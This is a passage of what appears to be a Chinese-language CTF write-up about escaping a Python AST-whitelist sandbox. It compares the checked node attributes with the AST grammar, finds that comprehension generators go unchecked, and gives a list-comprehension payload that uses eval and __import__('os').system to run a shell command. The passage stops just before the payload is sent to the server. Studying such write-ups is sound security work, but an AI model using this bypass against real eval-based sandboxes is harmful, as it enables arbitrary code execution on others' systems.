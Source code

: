 ```
```

和属性:

```
attributes = {
            'BoolOp': ['values'],
            'BinOp': ['left', 'right'],
            'UnaryOp': ['operand'],
            'Lambda': ['body'],
            'IfExp': ['test', 'body', 'orelse'],
            'Dict': ['keys', 'values'],
            'Set': ['elts'],
            'ListComp': ['elt'],
            'SetComp': ['elt'],
            'DictComp': ['key', 'value'],
            'GeneratorExp': ['elt'],
            'Yield': ['value'],
            'Compare': ['left', 'comparators'],
            'Call': False, # call is not permitted
            'Repr': ['value'],
            'Num': True,
            'Str': True,
            'Attribute': False, # attribute is also not permitted
            'Subscript': ['value'],
            'Name': True,
            'List': ['elts'],
            'Tuple': ['elts'],
            'Expr': ['value'], # root node 
        }
```

我比较了属性中选中的部分和注释中标记为未选中的部分。发现 **Lambda** 中的**参数**在属性中未被选中，在注释中标记为已选中，并且**生成器**在属性中未被选中 **ListComp** 参数**和**在注释中标记为已选中。

**在评论:**

```
| Lambda(arguments args, expr body)
| ListComp(expr elt, comprehension* generators)
```

**在属性:**

```
'Lambda': ['body'],
'ListComp': ['elt'],
```

基于这个结果让我们尝试使用 [**生成器**](https://wiki.python.org/moin/Generators\) 与[***eval***](https://www.programiz.com/python-programming/methods/built-in/eval)**函数来绕过它！**

```
**[x for x in [eval("__import__('os').system('pwd')")]]**
```

**让我们连接到给定的服务器，并将其作为输入发送:**
